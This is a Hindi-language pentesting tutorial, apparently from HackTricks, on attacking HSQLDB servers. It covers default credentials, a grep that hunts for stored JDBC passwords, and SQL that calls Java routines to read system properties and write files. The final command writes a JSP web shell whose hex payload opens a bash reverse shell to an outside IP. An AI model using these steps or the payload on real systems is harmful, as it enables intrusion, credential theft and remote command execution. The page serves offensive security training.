 {{#include ../banners/hacktricks-training.md}}

# मूल जानकारी

**HSQLDB \([HyperSQL DataBase](http://hsqldb.org/)\)** जावा में लिखी गई प्रमुख SQL संबंधपरक डेटाबेस प्रणाली है। यह एक छोटा, तेज़ मल्टीथ्रेडेड और लेनदेनात्मक डेटाबेस इंजन प्रदान करता है जिसमें इन-मेमोरी और डिस्क-आधारित तालिकाएँ होती हैं और यह एम्बेडेड और सर्वर मोड का समर्थन करता है।

**डिफ़ॉल्ट पोर्ट:** 9001
```text
9001/tcp open  jdbc      HSQLDB JDBC (Network Compatibility Version 2.3.4.0)
```
# जानकारी

### डिफ़ॉल्ट सेटिंग्स

ध्यान दें कि डिफ़ॉल्ट रूप से यह सेवा संभवतः मेमोरी में चल रही है या लोकलहोस्ट से बंधी हुई है। यदि आपने इसे पाया है, तो आपने संभवतः किसी अन्य सेवा का शोषण किया है और विशेषाधिकार बढ़ाने की कोशिश कर रहे हैं।

डिफ़ॉल्ट क्रेडेंशियल आमतौर पर `sa` होते हैं जिनका पासवर्ड खाली होता है।

यदि आपने किसी अन्य सेवा का शोषण किया है, तो संभावित क्रेडेंशियल के लिए खोजें।
```text
grep -rP 'jdbc:hsqldb.*password.*' /path/to/search
```
ध्यान दें कि डेटाबेस का नाम ध्यान से नोट करें - आपको इसे कनेक्ट करने के लिए आवश्यकता होगी।

# जानकारी इकट्ठा करना

DB इंस्टेंस से कनेक्ट करें [HSQLDB डाउनलोड करके](https://sourceforge.net/projects/hsqldb/files/) और `hsqldb/lib/hsqldb.jar` को निकालें। GUI ऐप \(eww\) को `java -jar hsqldb.jar` का उपयोग करके चलाएं और खोजे गए/कमजोर क्रेडेंशियल्स का उपयोग करके इंस्टेंस से कनेक्ट करें।

ध्यान दें कि कनेक्शन URL एक दूरस्थ सिस्टम के लिए इस तरह दिखेगा: `jdbc:hsqldb:hsql://ip/DBNAME`।

# तरकीबें

## जावा भाषा रूटीन

हम HSQLDB से जावा भाषा रूटीन का उपयोग करके एक जावा क्लास के स्थिर तरीकों को कॉल कर सकते हैं। ध्यान दें कि कॉल की गई क्लास को एप्लिकेशन के क्लासपाथ में होना चाहिए।

JRTs `functions` या `procedures` हो सकते हैं। यदि जावा विधि एक या अधिक SQL-संगत प्राइमिटिव वेरिएबल लौटाती है, तो SQL स्टेटमेंट के माध्यम से फ़ंक्शंस को कॉल किया जा सकता है। इन्हें `VALUES` स्टेटमेंट का उपयोग करके लागू किया जाता है।

यदि जावा विधि जिसे हम कॉल करना चाहते हैं, void लौटाती है, तो हमें `CALL` स्टेटमेंट के साथ लागू की गई एक प्रक्रिया का उपयोग करना होगा।

## जावा सिस्टम प्रॉपर्टीज़ पढ़ना

फंक्शन बनाएं:
```text
CREATE FUNCTION getsystemproperty(IN key VARCHAR) RETURNS VARCHAR LANGUAGE JAVA
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```
कार्यवाही फ़ंक्शन:
```text
VALUES(getsystemproperty('user.name'))
```
आप [यहाँ सिस्टम प्रॉपर्टीज़ की सूची](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html) पा सकते हैं।

## फ़ाइल में सामग्री लिखें

आप `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename` Java गैजेट का उपयोग कर सकते हैं जो JDK में स्थित है \(जो एप्लिकेशन के क्लास पाथ में ऑटो लोड होता है\) कस्टम प्रक्रिया के माध्यम से डिस्क पर हेक्स-कोडेड आइटम लिखने के लिए। **1024 बाइट्स का अधिकतम आकार नोट करें**।

प्रक्रिया बनाएं:
```text
CREATE PROCEDURE writetofile(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
LANGUAGE JAVA DETERMINISTIC NO SQL EXTERNAL NAME
'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```
प्रक्रिया निष्पादित करें:
```text
call writetofile('/path/ROOT/shell.jsp', cast ('3c2540207061676520696d706f72743d226a6176612e696f2e2a2220253e0a3c250a202020537472696e6720636d64203d20222f62696e2f62617368202d69203e26202f6465762f7463702f3139322e3136382e3131392[...]' AS VARBINARY(1024)))
```
{{#include ../banners/hacktricks-training.md}}
